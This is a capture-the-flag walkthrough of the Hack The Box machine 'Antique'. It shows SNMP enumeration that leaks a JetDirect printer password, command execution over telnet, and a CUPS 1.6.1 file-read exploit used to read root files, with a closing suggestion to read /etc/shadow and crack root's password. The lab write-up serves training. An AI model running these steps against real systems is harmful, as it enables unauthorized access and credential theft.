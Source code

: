 # Antique
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -oN nmap 10.129.121.249 -vv
```

This reveals the use of telnet. Connecting to the service reveals "HP JetDirect" as a flag.

Well, this is a printer. We can find a path-traversal vulnerability that leads to RCE. There is also a POC of the exploit on metasploit.

Exploit : https://www.exploit-db.com/exploits/45273.

Scanning the UDP ports reveals that port 161 (SNMP) is opened.

I'll first enumerate the SNMP port using snmpwalk.

```bash
snmpwalk -v2c -c public 10.129.109.25
iso.3.6.1.2.1 = STRING: "HTB Printer"

snmpwalk -v2c -c public 10.129.109.25 1      
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Decoding this we get:
```
P@ssw0rd@123!!123	"#%&'01345789BCIPQTWXaetuyÂÂÂÂÂÂÂÂÄÄÄÄÄÄÄ¢Ä£Ä¦Ä°Ä±Ä´Äµ
```

## Foothold:

We can try using it on the telnet connection.
```bash
telnet 10.129.109.25 23
Trying 10.129.109.25...
Connected to 10.129.109.25.
Escape character is '^]'.

HP JetDirect

P@ssw0rd@123!!123
Password: P@ssw0rd@123!!123

Please type "?" for HELP
> 
```

And it worked. Now we can execute commands using the "exec" command.
```bash
exec ls

telnet.py
user.txt
```

We can get the user flag.
```bash
exec cat user.txt
```

## We got the user flag!

I'll make a script for interacting with the telnet port so I don't have to add exec every time.

## Privilege escalation:

There is service listening on port 631. It's "IPP".

```bash
grep -w '631/tcp' /etc/services
 ipp            631/tcp                         # Internet Printing Protocol
```

We can also find a "cups" directory on the machine.
```bash
ls -la ..
 total 24
drwxr-xr-x  6 root   root 4096 May 14  2021 .
drwxr-xr-x 12 root   root 4096 Sep 17  2021 ..
drwxr-xr-x  5 root   root 4096 Apr 23  2020 cron
drwx--x---  3 root   lp   4096 May 13  2021 cups
drwxr-xr-x  3 lp     lp   4096 Nov 15 23:18 lpd
```

We can find the version by making a request:
```bash
curl http://localhost:631/

Home - CUPS 1.6.1</TITLE>
```

I found an [exploit](https://github.com/p1ckzi/CVE-2012-5519) and a POC for this version of cups.

The vulnerability allows an unprivileged user to read files that require privileged access.

After getting it on the target machine we can use it to read "/root/root.txt".
```bash
echo /root/root.txt | bash cups-root-file-read.sh             
```

## We got the root flag!

### Note: For command execution as root we can use the script to access the contents of /etc/shadow and crack root's password.

